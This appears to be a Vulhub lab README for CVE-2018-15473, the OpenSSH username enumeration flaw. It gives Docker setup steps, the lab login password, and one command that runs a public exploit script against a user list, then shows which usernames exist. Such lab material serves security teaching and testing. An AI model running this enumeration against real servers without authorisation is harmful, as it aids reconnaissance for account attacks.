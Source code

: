 # OpenSSH Username Enumeration Vulnerability (CVE-2018-15473)

There is a username enumeration vulnerability before OpenSSH 7.7. Through this vulnerability, an attacker can determine whether a username exists on the target host.

Reference link:

- http://openwall.com/lists/oss-security/2018/08/15/5
- https://github.com/Rhynorater/CVE-2018-15473-Exploit
- https://www.anquanke.com/post/id/157607

## vulnerability environment

Compile and start a container running OpenSSH 7.7p1 by executing the following command:

```
Docker-compose build
Docker-compose up -d
```

After the environment is started, we execute `ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@your-ip -p20022` on the client and enter the password `vulhub` to log in to the container.

## Vulnerability recurrence

Enumerate the username in the dictionary using [CVE-2018-15473-Exploit] (https://github.com/Rhynorater/CVE-2018-15473-Exploit):

```
Python3 sshUsernameEnumExploit.py --port 20022 --userList exampleInput.txt your-ip
```

![](1.png)

It can be seen that `root`, `example`, `vulhub`, `nobody` are the existing users, and `rootInvalid`, `user`, `phithon` are users that do not exist.